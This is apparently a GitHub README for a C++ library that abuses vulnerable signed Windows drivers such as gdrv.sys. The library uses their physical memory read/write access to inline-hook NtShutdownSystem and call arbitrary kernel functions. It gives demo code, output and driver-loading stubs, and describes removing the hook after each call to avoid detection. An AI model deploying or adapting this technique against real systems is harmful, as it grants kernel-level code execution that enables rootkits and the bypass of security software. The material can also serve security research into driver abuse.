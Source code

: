 <div align="center">
    <div>
        <img src="https://imgur.com/7ipSZRN.png"/>
    </div>
</div>

# Vulnerable Driver Manipulation

A library to manipulate drivers exposing a physical memory read/write primitive to allow the user to call any function in the kernel. There are thousands of drivers exposing physical
memory read/write, a bunch are listed in this repo. Currently the project is using gdrv.sys, and is inline hooking NtShutdownSystem. The inline hook is not patchguard friendly,
but is removed after every syscall into NtShutdownSystem to prevent possible detection. Although this is not patchguard friendly, using this to call a few kernel functions will most likely not cause any issues. 
This will not work on HVCI systems.

# Example

In this example VDM syscalls into an inline hook placed on NtShutdownSystem to call memcpy exported from ntoskrnl.exe.

#### Demo Code
```cpp
vdm::vdm_ctx vdm;
const auto ntoskrnl_base =
reinterpret_cast<void*>(
    util::get_module_base("ntoskrnl.exe"));

const auto ntoskrnl_memcpy =
    util::get_kernel_export("ntoskrnl.exe", "memcpy");

std::printf("[+] drv_handle -> 0x%x, drv_key -> %s\n", drv_handle, drv_key.c_str());
std::printf("[+] %s physical address -> 0x%p\n", vdm::syscall_hook.first, vdm::syscall_address.load());
std::printf("[+] ntoskrnl base address -> 0x%p\n", ntoskrnl_base);
std::printf("[+] ntoskrnl memcpy address -> 0x%p\n", ntoskrnl_memcpy);

short mz_bytes = 0;
vdm.syscall<decltype(&memcpy)>(
	ntoskrnl_memcpy,
	&mz_bytes,
	ntoskrnl_base,
	sizeof mz_bytes
);
std::printf("[+] kernel MZ -> 0x%x\n", mz_bytes);
```

#### Demo Code Result
```
[+] drv_handle -> 0x70, drv_key -> frAQBc8Wsa1xVPfv
[+] NtShutdownSystem physical address -> 0x00000000109BB3A0
[+] ntoskrnl base address -> 0xFFFFF80075200000
[+] ntoskrnl memcpy address -> 0xFFFFF800755F0980
[+] kernel MZ -> 0x5a4d
[+] press any key to close...
```

# Usage

Currently the project is configured to use gdrv, but if you want to swap the driver out you must defined four functions. 

### vdm::load_drv

Replace this function with the code required to load your driver... Return an std::pair containing the driver handle and an std::string containing the registry key name
for the driver. The key name is returned from [loadup](https://githacks.org/xerox/loadup).

```cpp
__forceinline auto load_drv() -> std::pair <HANDLE, std::string>
{
	const auto [result, key] =
	    driver::load(
		vdm::raw_driver,
		sizeof(vdm::raw_driver)
	    );

	if (!result) return { {}, {} };
	vdm::drv_handle = CreateFile(
		"\\\\.\\GIO",
		GENERIC_READ | GENERIC_WRITE,
		NULL,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL
	);

	return { vdm::drv_handle, key };
}
```

### vdm::unload_drv

This code probably wont change, its just a wrapper function for `driver::unload`, but it also closes the driver handle before trying to unload the driver...

```cpp
__forceinline bool unload_drv(HANDLE drv_handle, std::string drv_key)
{
    return CloseHandle(drv_handle) && driver::unload(drv_key);
}
```

### vdm::read_phys

Most drivers expose mapping of physical memory. This means you will need to map the physical memory, memcpy it, then unmap it. This allows support
for drivers that actually only offer physical read and write and not physical map/unmap.

```cpp
__forceinline bool read_phys(void* addr, void* buffer, std::size_t size)
{
    // code to read physical memory. most drivers offer map/unmap physical
    // so you will need to map the physical memory, memcpy, then unmap the memory
}
```

### vdm::write_phys

This function is going to probably contain the same code as `vdm::read_phys` except the memcpy dest and src swapped...

```cpp
__forceinline bool write_phys(void* addr, void* buffer, std::size_t size)
{
    // code to write physical memory... same code as vdm::read_phys
    // except memcpy dest and src are swapped.
}
```